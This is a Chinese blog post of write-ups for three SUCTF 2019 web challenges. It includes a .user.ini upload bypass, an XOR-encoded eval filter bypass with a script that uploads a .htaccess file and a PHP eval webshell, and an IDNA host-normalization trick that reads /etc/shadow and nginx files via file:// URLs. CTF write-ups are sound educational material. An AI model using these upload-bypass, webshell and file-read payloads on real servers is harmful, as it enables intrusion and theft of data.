<!--yml
category: 未分类
date: 2022-04-26 14:44:14
-->

# SUCTF_2019部分题解复现_FFM-G的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_44255856/article/details/99734891](https://blog.csdn.net/weixin_44255856/article/details/99734891)

本次比赛还是太菜了，只写出了两道题。但是学习到了很多东西。

## web

## check

题目是一个文件上传，但是限制了很多地方，限制了文件类型，并且判断了文件上传的文件内容，这里是使用exif_image判断的。可以通过手动添加GIF89，也可以在文件头加上width和height


这里在前面添加

```
#define width 1337
#define height 1337

auto_prepend_file=2.jpg 
```

首先先上传一个.user.ini文件
关于.user.ini参考这里[.user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

后再上传个2.php文件。

访问生成的目录即可得到flag



## easyphp

首先得到源码。

```
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?> 
```

简单的代码审计下。
发现这个正则太变态了`if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i’, $hhh) )`过滤了字母，数字，下划线以及其他的符号。
并且要通过eval去触发get_the_flag函数
首先我们先拜读这两篇文章
[PHP不使用数字,字母和下划线写shell](https://www.smi1e.top/php%E4%B8%8D%E4%BD%BF%E7%94%A8%E6%95%B0%E5%AD%97%E5%AD%97%E6%AF%8D%E5%92%8C%E4%B8%8B%E5%88%92%E7%BA%BF%E5%86%99shell/)
[ISITDTU CTF 2019 EasyPHP 回顾](https://blog.zeddyu.info/2019/07/20/isitdtu-2019/)

> 首先了解下php中异或的概念
> 在PHP中两个变量进行异或时，会先将字符串转换成ASCII值，再将ASCII值转换成二进制再进行异或，异或完又将结果从二进制转换成ASCII值，再转换成字符串。
> A的ASCII值是65，对应的二进制值是01000001
> ?的ASCII值是63，对应的二进制值是00111111
> 异或的二进制的值是10000000即为~
> 所以`‘A’^'?'='~'`

于是我们可以通过异或来绕过正则
但是我们怎么去触发函数呢？
发现可以这样去触发函数 `${_GET}{name}() ;& name = phpinfo`

这里贴上师傅的脚本

```
<?php
function gen($pl) {
	$aa = "";
	$bb = "";
	for ($j = 0; $j < strlen($pl); $j++) {
		for ($i = 0xa0; $i < 0xff; $i++) {
			if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i)) == 0) {
				$t = chr($i) ^ $pl[$j];
				if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $t) == 0) {
					$aa .= chr($i);
					$bb .= $t;
					break;
				}
			}
		}
	}
	return str_replace("%", "\x", urlencode($aa) . "^" . urlencode($bb) . "\r\n");
}
echo "_GET\r\n";
echo gen("_GET");
echo "_POST\r\n";
echo gen("_POST");

// _GET \xA0\xA0\xA0\xA0^\xFF\xE7\xE5\xF4 _POST \xA0\xA0\xA0\xA0\xA0^\xFF\xF0\xEF\xF3\xF4 
```

于是`?_=${%A0%A0%A0%A0^%FF%E7%E5%F4}{%A0}();&%A0=phpinfo`
因为已经可以执行get_the_flag()函数。所以可以直接上传一句话木马。
贴上脚本

```
import requests
import base64

url = b'http://47.111.59.243:9001/?_=${%A0%A0%A0%A0^%FF%E7%E5%F4}{%A0}();&%A0=get_the_flag'

htaccess = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .we
php_value auto_append_file "php://filter/convert.base64-decode/resource=./w.we"
"""

shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_POST['c']);?>")

files = [('file',('.htaccess',htaccess,'application/octet-stream'))]

data = {"upload":"Submit"}
print("upload .htaccess")
r = requests.post(url=url, data=data, files=files)#proxies=proxies)

print(r.text) 

print("upload w.we")

files = [('file',('w.we',shell,'application/octet-stream'))]
r = requests.post(url=url, data=data, files=files)
print(r.text) 
```


后使用蚁剑连接

但是这里有限制发现蚁剑根本无法访问www目录
于是查看phpinfo，发现启用了`disable_function.`

并且还限制了`open_basedir`
后绕过disable_function和open_basedir。任意文件读取即可

## pythonginx

得到源码

```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333" 
```

听师傅们说这是blackhat的议题，详细见`chrome-extension://cdonnmffkdaoajfknoeeecmchibpmkmg/static/pdf/web/viewer.html?file=https%3A%2F%2Fi.blackhat.com%2FUSA-19%2FThursday%2Fus-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf`
文中提到了
**encode(‘idna’)是指转换为国际化域名**
构造url绕过`file://suctf.cℂ/etc/shadow`
经过测试当suctf.cℂ时，即可绕过suctf.cc。

根据题中的提示，`”Do you know the nginx？”`，直接读取nginx的文件。

```
file://suctf.cℂ/etc/shadow/usr/local/nginx/conf/nginx.conf 
```


查看到flag的文件目录。
读取目录。

```
 file://suctf.cℂ/etc/shadow/usr/fffffflag 
```

得到flag
